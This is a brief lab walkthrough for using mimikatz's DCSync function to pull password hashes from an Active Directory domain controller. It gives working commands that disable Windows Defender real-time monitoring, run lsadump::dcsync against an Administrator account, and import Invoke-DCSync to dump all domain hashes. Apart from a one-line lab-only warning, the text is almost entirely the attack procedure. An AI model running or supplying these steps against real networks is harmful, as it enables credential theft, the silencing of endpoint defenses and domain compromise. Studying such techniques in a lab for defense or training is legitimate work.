 = mimikatz DCSync Walkthrough
Steve Willson
5/19/18

Reference: https://adsecurity.org/?p=1729

Reference: https://silentbreaksecurity.com/invoke-dcsync-because-we-all-wanted-it/

Goal: retrieve password hashes from all user accounts on a domain controller using the mimikatz DCSync function

WARNING: Only do this in a lab environment.

mimikatz implemented a tool called DCSync, this allows mimikatz to impersonate a Domain Controller and attempt to retrieve all password hashes from another domain controller.

You may need to disable Windows Defender

Open up PowerShell as an administrator and type

 $ Set-MpPreference -DisableRealtimeMonitoring $true


Start mimikatz

 $ lsadump::dcsync /domain:test.local /user:Administrator

Now you have the password hash from that user

This required that you have Administrator access, specifically the Get-Replication-Changes-All
Common Name attribute


Can use the `Invoke-DCSync` module to extract all hashes.

Download from: https://gist.github.com/monoxgas/9d238accd969550136db

 $ Import-Module ./Invoke-DCSync.ps1

 $ Invoke-DCSync -PWDumpFormat
